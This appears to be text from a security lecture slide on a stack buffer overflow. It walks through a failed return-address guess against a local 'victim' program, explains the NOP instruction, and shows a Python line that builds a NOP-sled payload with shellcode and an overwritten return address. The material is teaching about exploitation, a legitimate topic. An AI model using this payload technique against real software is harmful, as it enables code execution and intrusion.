

# Note: addresses found in gdb are only approximate
Ok trying 0xfffff618
$ ./victim $(./sc.py)
Segmentation fault
$
Ok, this isn’t working… larger arg size is shifting buffer
Plus gdb perturbs the environment
Introducing, “xchg %eax, %eax”
Does nothing, doesn’t even touch flag reg
Op code is 0x90
Aka “NOP”
Let’s add a “NOP sled” to the front of our shellcode
print "\x90"*(256-len(sc))+sc+"AAAA"+"\x18\xf7\xff\xff";

changed back to 0xfffff718 since that’s about the midpoint of the sled